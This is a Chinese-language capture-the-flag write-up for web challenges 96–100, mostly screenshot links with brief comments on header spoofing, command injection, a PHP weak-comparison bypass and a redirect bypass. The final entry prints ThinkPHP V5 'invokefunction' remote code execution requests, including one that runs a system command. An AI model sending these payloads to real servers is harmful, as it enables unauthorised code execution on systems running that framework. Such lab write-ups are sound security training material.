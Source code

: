 ## 96.xff_referer

按要求更改xff和referfer

Referer:https://www.google.com
X-Forwarded-For: 123.123.123.123

## 97.command_execution

![image-20241122150402958](D:\ctf wp\81-120.assets\image-20241122150402958.png)

![image-20241122150434843](D:\ctf wp\81-120.assets\image-20241122150434843.png)

![image-20241122175143696](D:\ctf wp\81-120.assets\image-20241122175143696.png)

试试RCE注入![image-20241122175329012](D:\ctf wp\81-120.assets\image-20241122175329012.png)

找可疑的打开 发现home里有flag![image-20241122175927484](D:\ctf wp\81-120.assets\image-20241122175927484.png)

## 98.simple_php

![image-20241122180218270](D:\ctf wp\81-120.assets\image-20241122180218270.png)

简单的若比较绕过

## 99.baby_web

![image-20241122180921074](D:\ctf wp\81-120.assets\image-20241122180921074.png)

![image-20241122180932109](D:\ctf wp\81-120.assets\image-20241122180932109.png)

i题目明显提示去看index.php 但是会跳到1.php 那就抓包改

最后藏在语句里![image-20241122181047462](D:\ctf wp\81-120.assets\image-20241122181047462.png)

## 100.php_rce

![image-20241122182447097](D:\ctf wp\81-120.assets\image-20241122182447097.png)

感觉是复现题 搜一搜ThinkPHP V5

```
index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100
```

![image-20241122182941654](D:\ctf wp\81-120.assets\image-20241122182941654.png)

```
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
